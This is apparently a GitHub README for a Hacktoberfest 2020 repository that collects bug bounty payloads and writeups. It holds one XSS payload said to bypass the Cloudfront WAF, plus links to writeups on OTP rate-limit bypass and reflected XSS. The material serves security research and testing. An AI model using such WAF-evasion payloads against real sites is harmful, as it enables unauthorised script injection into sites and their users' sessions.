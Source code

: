 <center><img src="https://hacktoberfest.digitalocean.com/assets/h-dark-d1a5f262f5aa5936d3bc526365938d98f3946e669f6e2cd9ae1e7a848c57e351.svg" alt="drawing" width="200"/></center>

# Hacktoberfest 2020

Hacktoberfest® is open to everyone in our global community. Whether you’re a developer, student learning to code, event host, or company of any size, you can help drive growth of open source and make positive contributions to an ever-growing community. All backgrounds and skill levels are encouraged to complete the challenge.

- Hacktoberfest is a celebration open to everyone in our global community.
- Pull requests can be made in any GitHub-hosted repositories/projects.
- You can sign up anytime between October 1 and October 31.
## Let's contribute the easy way

For this time I will try to fill in the repo with a payload related to Bug Hunting, you can add it to participate in the Hacktoberfest 2020 event and also make it easier for other Bug Hunters to handle problems such as payloads being blocked by WAF and others by adding your payload or bugbounty writeup in a new line with the format shown below.

## Payload List
##### XSS Bypass Cloudfront WAF By Noobsec
```html
x"><--<img src= "><details/open/ontoggle=alert(`mindbl0w@bugcrodninja.com`)>> --!>=
```
---

## Writeup List
##### No Rate Limiting to Bypass Phone Verification
- [Rate Limit ~ Graylife](https://graylife.co/2019/infosec/perfectmoney-bug-bounty-otp-bypass-170)
- [XSS in OLX Bug Bounty](https://medium.com/@abaykandotcom/olx-bug-bounty-reflected-xss-adb3095cd525)
---
## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License
[MIT](https://choosealicense.com/licenses/mit/)
